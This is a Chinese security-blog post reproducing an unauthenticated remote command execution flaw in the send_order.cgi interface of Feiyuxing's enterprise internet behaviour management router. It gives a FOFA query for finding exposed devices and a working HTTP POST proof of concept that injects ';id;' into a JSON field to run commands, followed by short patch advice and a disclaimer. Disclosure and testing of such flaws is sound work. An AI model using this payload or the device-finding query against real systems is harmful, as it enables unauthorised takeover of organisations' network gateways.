 #  ​飞鱼星企业级智能上网行为管理系统​ send_order.cgi 前台RCE漏洞复现   
 TKing的安全圈   2024-03-24 15:51  
  
飞鱼星企业级智能上网行为管理系统是成都飞鱼星科技开发有限公司开发的一款上网行为管理路由器，专为中小企业、政府机关、教育及科研机构等用户设计，是具备“
 
上网行为管理”、“多WAN路由器”以及“VPN网关”多重功能的新一代硬件网络接入设备。它能帮助企业对员工使用因特网的情况进行监控、生成报表并进行管理；帮助企业提高员工的生产率、节省网络带宽并且减少法律风险。  
### 0x01 漏洞概述  
  
飞鱼星企业级智能上网行为管理系统 send_order.cgi接口处存在远程命令执行漏洞，未经身份验证的攻击者可以利用此漏洞执行任意指令，且写入后门文件可获取服务器权限，造成严重威胁。  
### 0x03 复现环境  
  
FOFA：title=="飞鱼星企业级智能上网行为管理系统"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHSia6y2redE6YDWYYic9fqibDffy7G0j45c9dhaJia5ao5ELHW0txzSu1jwSxDOXhtG2RiaCoibiaBUvMPKA/640?wx_fmt=png&from=appmsg "")  
### 0x04 漏洞复现  
  
PoC  
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
 
{"opid":"1","name":";id;","type":"rest"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHSia6y2redE6YDWYYic9fqibDfSy0ZxeRxBugA1SPiaYiaLe0RhBPIhPDOdcPY86VLh2uufNibUuXRjeYnw/640?wx_fmt=png&from=appmsg "")  
### 0x05 修复建议  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
```
公众号技术文章仅供诸位网络安全工程师对自己所管辖的网站、服务器、网络进行检测或维护时参考用，公众号的检测工具仅供各大安全公司的安全测试员安全测试使用。未经允许请勿利用文章里的技术资料对任何外部计算机系统进行入侵攻击，公众号的各类工具均不得用于任何非授权形式的安全测试。公众号仅提供技术交流，不对任何成员利用技术文章或者检测工具造成任何理论上的或实际上的损失承担责任。加微信进群获取更多资源：
```  
  
  
